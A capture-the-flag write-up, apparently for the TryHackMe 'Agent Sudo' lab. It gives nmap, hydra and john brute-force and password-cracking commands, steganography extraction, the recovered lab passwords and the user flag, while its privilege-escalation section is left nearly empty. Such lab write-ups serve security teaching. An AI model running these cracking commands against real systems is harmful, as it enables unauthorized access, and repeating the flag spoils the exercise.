 # [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Scanning

scan the machine

```
nmap -A -T4 10.10.57.85
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/352d8481-92d2-437a-b779-641da4eae8c2)

it shows 3 open ports 21 (fpt), 22 (ssh), 80 (http)

## HTTP (optional)

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7280081d-8978-496f-a001-ed5c86090a0e)

i found a hint say using your `user-agent` codename to view the secret (such as agent `R`)

## Enumeration

maybe i will use BurpSuite Intruder to bruteforce user-agent

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/04891e3b-67b2-4e9b-aed6-142416d8fc84)

to use this payload, we need another 2nd payload that run 1 time

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b0037f6b-5a66-4766-a256-032f5d782ab2)

i see that a diffent at `User-agent: C`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1cff0bb0-4d17-468f-9fe9-1c54d97d28fb)

it's 302 movement

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/defa2d91-3369-4193-9021-d5f2c7372dc0)

go there, i found his name is `chris`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6c3057e-89ec-4c35-847f-9784660f8bc2)

## FTP

now try to bruteforce fpt password with hydra

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.57.85
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ecd86b80-8d66-474a-9452-8b59afee28bf)

login to ftp server

```
ftp 10.10.57.85
chris
crystal
ls
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7c8340a1-c24d-4760-bb5e-6b69bd78aa78)

get all files to local to process later

```
mget *
```

## Forensics

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e3aeca01-aa94-4443-bf95-cbf244738801)

here is a note for agent J

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7b416466-bca7-41c1-a567-14185f7b85d3)

hmm, let's do some forensics with 2 images

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3ecd5272-3b21-451e-a040-b8b2898f7822)

hmm i found a zip file in `cutie.png`

```
binwalk -e cutie.png
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1c93903c-5b39-459b-9099-ad4f77fd4112)

it's unable to unzip the file, so crack it

```
zip2john 8702.zip > hash
cat hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/845ce747-2e40-48d8-b77e-8471c1cc59e2)

crack the file

```
7z x 8702.zip
alien
```

i found a message to agent R: `QXJlYTUx`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f3675ec7-950f-446c-82dc-df2da4ba37ca)

use that password to crack steg at left image

```
steghide extract -sf cute-alien.jpg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/554998d2-a1b9-4651-826c-a6fe37b5e388)

hmm, i found it's a base64 and after decode, we have `Area51` is our real password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3c29f2ca-8c65-4b4b-b06f-7fa743109448)

so, we got `james` ssh password is `hackerrules!`

## Exploitation

ssh to the server

```
ssh james@10.10.196.225
hackerrules!
ls
cat user_flag.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2283c37b-dff0-42d5-b08b-e873f2c39086)

| Flag | cat user_flag.txt |
| --- | --- |
| Answer | b03d975e8c92a7c04146cfa7a5a313c7 |

download the image to local for further research

```
python3 -m http.server
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/151fa7b8-b64f-46b6-838a-0f488737bcb8)

hmm it's an aline image

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1e9c3db7-47a8-4422-95da-976d074bbf9b)

search with google image and found an acticle about `roswell alien autopsy`

## Privilege Escalation

search for privilege escalate

```
sudo -l -l
```























| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
